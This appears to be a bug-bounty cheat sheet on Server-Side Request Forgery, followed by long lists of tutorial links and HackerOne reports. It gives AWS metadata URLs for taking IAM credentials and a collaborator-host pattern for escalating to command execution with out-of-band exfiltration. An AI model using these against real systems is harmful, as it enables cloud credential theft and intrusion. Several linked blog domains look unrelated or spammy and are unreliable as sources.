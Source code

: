 # SSRF ( Server-Side-Request-Forgery)
* What's SSRF ??
   * SSRF is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.

## Where to look for ??

1. If you got Open Redirect try escalating it to SSRF.

2. gf SSRF to grep parameters may vulnerable to SSRF.

3. SSRF's are more in API's so crawl the whole web app with burp proxy turned on and search for keywords like., eg :
```
?url=
?uri=
?req= 
etc.....
```
4. Sign up with an Email like blabla.collaborator.net. If u receive HTTP req. in collaborator then its SSRF. But if there's no impact Don't Report it :) DNS and SMTP req. Doesn't matters.

## AWS Metadata
Most of the sites use AWS nowadays...

* AWS localhost is 169.254.169.254 so don't use 127.0.0.1 there!

* If you found an SSRF vulnerability that runs on EC2, try requesting :
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```
* Source: https://twitter.com/ADITYASHENDE17/status/1305051512335298562

## Escalation

* SSRF can be Escalated to RCE :) [Impact High] 
* `<os cmd>`.collaborator.net (thehackerish has a good video in it :)
* If there's no impact! on your SSRF rather than a redirect try to escalate it to XSS.

## Resources 💯
### Youtube
* https://www.youtube.com/watch?v=U0bPPw6uPgY&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE&t=751s
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k
* [A New Era of SSRF](https://www.youtube.com/watch?v=R9pJ2YCXoJQ) by [Orange Tsai](https://blog.orange.tw/)

### Hackerone Reports
* https://hackerone.com/hacktivity?order_field=popular&filter=type%3Apublic&querystring=SSRF
* https://hackerone.com/reports/737161
* https://hackerone.com/reports/816848
* https://hackerone.com/reports/398799
* https://hackerone.com/reports/382048
* https://hackerone.com/reports/406387
* https://hackerone.com/reports/736867
* https://hackerone.com/reports/517461
* https://hackerone.com/reports/508459
* https://hackerone.com/reports/738553
* https://hackerone.com/reports/514224
* https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF
* https://hackerone.com/reports/341876
* https://hackerone.com/reports/793704
* https://hackerone.com/reports/386292
* https://hackerone.com/reports/326040
* https://hackerone.com/reports/310036
* https://hackerone.com/reports/643622
* https://hackerone.com/reports/885975
* https://hackerone.com/reports/207477
* https://hackerone.com/reports/514224

### Blogs
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978
* https://medium.com/@kapilvermarbl/ssrf-server-side-request-forgery-5131ffd61c3c
* https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326
* https://medium.com/@chawdamrunal/what-is-server-side-request-forgery-ssrf-7cd0ead0d95f
* https://medium.com/swlh/ssrf-in-the-wild-e2c598900434
* https://medium.com/@briskinfosec/ssrf-server-side-request-forgery-ae44ec737cb8
* https://medium.com/@GAYA3_R/vulnerability-server-side-request-forgery-ssrf-9fe5428184c1
* https://medium.com/@gupta.bless/exploiting-ssrf-for-admin-access-31c30457cc44
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-f62235a2c151
* https://medium.com/@dlpadmavathi.us/ssrf-attack-real-example-a7279256abee
* https://blog.securityinnovation.com/the-many-faces-of-ssrf
* https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/
* http://www.techpna.com/uptzh/blind-ssrf-medium.html
* https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90
* http://institutopaideia.com.br/journal/blind-ssrf-medium-cfa769
* https://www.reddit.com/r/bugbounty/comments/cux2zs/ssrf_in_the_wild_the_startup_medium/
* https://www.sonrn.com.br/blog/5a44cc-blind-ssrf-medium
* https://ssrf-bypass-medium.thickkare.pw/
* https://hackerone.com/reports/326040
* https://www.zerocopter.com/vulnerabilities-price-list-printable
* https://medium.com/swlh/intro-to-ssrf-beb35857771f
* https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-3-b0f5997e3739
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-testing-b9dfe57cca35
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0
* https://medium.com/bugbountywriteup/tagged/ssrf
* https://medium.com/seconset/all-about-ssrf-524f41ab96df
* https://blog.cobalt.io/from-ssrf-to-port-scanner-3e8ef5921fbf
* https://portswigger.net/web-security/ssrf
* https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

### Github Repos
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
* https://github.com/jdonsec/AllThingsSSRF

